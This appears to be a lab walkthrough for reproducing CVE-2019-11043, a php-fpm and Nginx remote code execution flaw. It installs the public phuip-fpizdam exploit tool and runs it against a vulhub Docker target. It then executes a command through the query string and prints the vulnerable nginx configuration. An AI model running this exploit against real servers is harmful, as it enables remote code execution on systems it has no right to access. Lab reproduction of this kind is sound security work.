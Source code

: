 # CVE-2019-11043 php-fpm+Nginx RCE

## 0x01 install phuip-fpizdam-Mac

`go get github.com/neex/phuip-fpizdam`

`go install github.com/neex/phuip-fpizdam`

![](./phuip-fpizdam-Mac.jpg)
```
ale@Pentest ~/go go get github.com/neex/phuip-fpizdam
ale@Pentest ~/go go install github.com/neex/phuip-fpizdam
ale@Pentest ~/go ls
bin src

ale@Pentest ~/go cd bin
ale@Pentest ~/go/bin ls
phuip-fpizdam

ale@Pentest ~/go/bin file phuip-fpizdam
phuip-fpizdam: Mach-O 64-bit executable x86_64

ale@Pentest ~/go/bin ls -lah phuip-fpizdam
-rwxr-xr-x  1 ale  staff   9.3M Oct 24 07:30 phuip-fpizdam

ale@Pentest ~/go/bin
```

##### phuip-fpizdam help
```
./phuip-fpizdam

Error: accepts 1 arg(s), received 0
Usage:
  phuip-fpizdam [url] [flags]

Flags:
      --cookie string       send this cookie
  -h, --help                help for phuip-fpizdam
      --kill-count int      how many times to send the worker killing payload (default 50)
      --kill-workers        just kill php-fpm workers (requires only QSL)
      --method string       detect method (see detect_methods.go) (default "session.auto_start")
      --only-qsl            stop after QSL detection, use this if you just want to check if the server is vulnerable
      --pisos int           pisos hint
      --qsl int             qsl hint
      --reset-retries int   how many retries to do for --reset-setting, -1 means a lot (default 50)
      --reset-setting       try to reset setting (requires attack params)
      --setting string      specify custom php.ini setting for --reset-setting
      --skip-attack         skip attack phase
      --skip-detect         skip detection phase

2019/10/24 07:53:55 accepts 1 arg(s), received 0

```
## 0x02 install phuip-fpizdam-Windows

`https://github.com/neex/phuip-fpizdam/archive/master.zip`

`go build`

![](./phuip-fpizdam-Windows.jpg)

## 0x03 docker for CVE-2019-11043

```
root@kali:~# cd ~/vulhub/php/CVE-2019-11043

root@kali:~/vulhub/php/CVE-2019-11043# ls

1.png  2.png  default.conf  docker-compose.yml  README.md  www

root@kali:~/vulhub/php/CVE-2019-11043# docker-compose up -d

Creating network "cve-2019-11043_default" with the default driver
Creating cve-2019-11043_php_1 ... done
Creating cve-2019-11043_nginx_1 ... done
root@kali:~/vulhub/php/CVE-2019-11043#


root@kali:~/vulhub/php/CVE-2019-11043# docker ps -a
CONTAINER ID  IMAGE  COMMAND  CREATED  STATUS  PORTS  NAMES

9923d12fdff0 nginx:1 "nginx -g 'daemon of…" 43 seconds ago Up 41 seconds 0.0.0.0:8080->80/tcp cve-2019-11043_nginx_1

d3135c708e7b php:7.2.10-fpm "docker-php-entrypoi…" 44 seconds ago Up 42 seconds 9000/tcp cve-2019-11043_php_1

```
![](./CVE-2019-11043-docker.png)

## 0x04 send poc

`./phuip-fpizdam http://10.10.20.166:8080/index.php`

![](./php-command.jpg)

`http://10.10.20.166:8080/index.php?a=id`

![](./CVE-2019-11043.jpg)


## python check vulnerable.

`python php-rce-check.py`

![](./check.jpg)

![](./502.jpg)

## nginx config

`/etc/nginx/conf.d/default.conf`

example:

```
server {
    listen 80 default_server;
    listen [::]:80 default_server;

    root /usr/share/nginx/html;

    index index.html index.php;

    server_name _;

    location / {
        try_files $uri $uri/ =404;
    }

    location ~ [^/]\.php(/|$) {
        fastcgi_split_path_info ^(.+?\.php)(/.*)$;
        include fastcgi_params;

        fastcgi_param PATH_INFO       $fastcgi_path_info;
        fastcgi_index index.php;
        fastcgi_param  REDIRECT_STATUS    200;
        fastcgi_param  SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
        fastcgi_param  DOCUMENT_ROOT /var/www/html;
        fastcgi_pass php:9000;
    }

}
```
## version

```
root@7c20aecd9c04:/usr/share/nginx/html# nginx -v
nginx version: nginx/1.19.2

phpinfo();
PHP Version 7.2.10
```

## 0x05 参考链接

https://github.com/neex/phuip-fpizdam

https://github.com/vulhub/vulhub/tree/master/php/CVE-2019-11043

